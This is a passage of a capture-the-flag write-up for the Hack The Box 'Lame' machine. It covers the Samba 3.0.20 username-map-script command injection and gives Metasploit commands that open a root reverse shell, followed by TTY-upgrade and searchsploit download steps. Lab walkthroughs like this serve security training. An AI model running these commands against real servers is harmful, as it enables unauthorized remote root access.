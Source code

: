 > **Vulnerability Overview:**  
> This flaw allows remote attackers to execute arbitrary shell commands without authentication by specifying a username containing shell metacharacters. It occurs when the `username map script` option is enabled in `smb.conf`.  

### 3.1 Identifying the Exploit

Search on Metasploit for Samba exploit modules:

![[GitHub Documentation/EASY/HTB_Lame_Writeup/screenshots1/msfconsole.png]]

![[msfconsole_search_samba.png]]

---
### 3.2 Exploitation with Metasploit

Launch Metasploit and configure the module:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST <Your_Tun0_IP>
set LPORT 4444
run
```

![[msfconsole_samba_exploitation.png]]

A reverse shell is obtained **directly as root**.

To upgrade to a fully interactive TTY, execute the following commands:

```bash
script /dev/null -c bash
# Press Ctrl + Z
stty raw -echo; fg
reset xterm
```

![[configure_bash.png]]

---
### 3.3 Understanding and Manually Exploiting the Samba Vulnerability

For manual exploitation, we download the exploit locally:

```bash
searchsploit "Samba 3.0.20"
searchsploit -m unix/remote/16320.rb
```

![[searchsploit_samba_download.png]]
